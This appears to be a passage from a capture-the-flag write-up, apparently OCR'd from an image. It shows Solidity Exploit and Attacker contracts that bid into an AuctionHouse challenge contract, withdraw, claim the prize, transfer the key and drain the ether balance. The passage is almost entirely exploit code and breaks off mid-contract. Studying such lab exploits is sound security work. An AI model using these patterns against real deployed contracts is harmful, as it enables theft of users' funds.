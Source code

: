 ```solidity=
    function exploit() public{
        // bid
        payable(auctionhouse).call{value: 1 ether}("");
        withdraw();
    }
    function retrievePrize() public {
        payable(auctionhouse).call{value: 1 ether}("");
        claim();
        transferKey();
    }
    function claim() public {
        auctionhouse.claimPrize();
    }
    function transferKey() public {
        auctionhouse.keyTransfer(address(this));
    }
    function withdraw() public {
        auctionhouse.withdrawFromAuction();
    }
    function transfer(address _player) public {
        auctionhouse.keyTransfer(_player);
    }
    function withdrawEther() external payable{
        payable(msg.sender).call{value: address(this).balance}("");
    }
}

```

* Attacker.sol
```solidity=

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.0;

import {Exploit} from './Exploit.sol';
import {Setup} from './Setup.sol';
import {AuctionHouse} from './AuctionHouse.sol';

contract Attacker{
    Setup setup;
    address[] public exp_addr;
    constructor(Setup _setup) payable  {
        setup = _setup;
    }
    // accept money
    receive() external payable {
    }

    function attack() public {
        Exploit exp = new Exploit{value:20 ether}(setup);
        exp_addr.push(address(exp));
        exp.exploit();
        exp.withdrawEther();
    }
    function attack2(address _player) public {
        Exploit exp = new Exploit{value:1 ether}(setup);
        exp.retrievePrize();
        exp.transfer(_player);
    }
    function complete_attack(address _player) public {
        attack();
        attack2(_player);
    }
```